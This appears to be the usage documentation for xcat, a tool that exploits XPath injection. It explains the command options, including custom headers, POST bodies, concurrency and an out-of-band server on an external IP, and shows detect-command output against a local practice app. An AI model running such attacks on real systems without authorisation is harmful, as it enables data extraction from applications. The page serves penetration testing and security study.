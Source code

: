 # Common options

All commands except `ip` take the same arguments. These describe the attack you are making, 
and allows xcat to explore it and work out what features it can use.

At _minimum_ you need to supply:

- A URL to attack (`url`)
- A target parameter which is vulnerable to XPath injection (`target_parameter`)
- A value for this parameter, and optionally others if required (`parameters`)
- A string or a status code that is present in the response if the condition is True (`--true-string` and `--true-code`)

For example, to attack the [example vulnerable application](https://github.com/orf/xcat_app) you would use:

`xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer` 

This instructs `xcat` that:

- The vulnerable URL is `http://localhost:4567/`
- The vulnerable parameter is `query`
- The parameters to pass to the URL are `query=Rogue`
- The true condition is `Lawyer` being present in the response

## Additional options

#### `--headers`

This argument can be used to send custom headers, including cookies. It should be a file path to a plain text 
file containing lines in the following format:

```text
Header-Name: header-value
```

**Example:** `xcat run ... --headers=my-header-file.txt`

#### `--body`

This argument is a path to a file containing a request body to send. This is helpful if you are exploiting a 
POST request that has a vulnerable URL parameter, but also require a POST body to be sent. The file contents 
are sent as-is.

**Example:** `xcat run ... --headers=my-request-body.txt`

#### `--encode`

XCat currently supports manipulating either URL or form parameters. This allows you to switch between 
sending the exploit payload via the POST body or URL arguments.

**Example:** `xcat run ... --encode=form`

#### `--fast`

When this flag is present then XCat will only retrieve the first 15 characters of strings. This can drastically speed
up retrieval in documents that contain very large strings.

**Example:** `xcat run ... --fast`

#### `--concurrency`

This parameter limits the number of concurrent connections xcat can make. Setting it too low will slow down 
exploitation, but can reduce the load on the target server.

**Example:** `xcat run ... --concurrency=10`

#### `--enable/--disable`

XCat attempts to intelligently detect what features the target server supports and uses these to speed up 
retrieval. These flags let you force enable or disable these features.

**Example:** `xcat run ... --enable=substring-search`

#### `--oob`

Enables the `oob` server. For more info see [the oob server documentation.](oob.md)

**Example:** `xcat run ... --oob=$EXTERNAL_IP:$EXTERNAL_PORT`

# Detect

This command will print out what injection XCat has detected, as well as a list of features and their status. You 
can use this to quickly explore an injection and different parameter values before commencing an attack.

```shell
$ xcat detect http://localhost:4567/ query query=Rogue --true-string=Lawyer
function call - last string parameter - single quote
 - Example: /lib/something[function(?)]
Detected features:
 - xpath-2: True
 - xpath-3: False
 - xpath-3.1: False
 - normalize-space: True
 - substring-search: True
 - codepoint-search: True
 - environment-variables: False
 - document-uri: True
 - base-uri: True
 - current-datetime: True
 - unparsed-text: False
 - doc-function: True
 - linux: False
 - expath-file: False
 - saxon: False
 - oob-http: False
 - oob-entity-injection: False
``` 
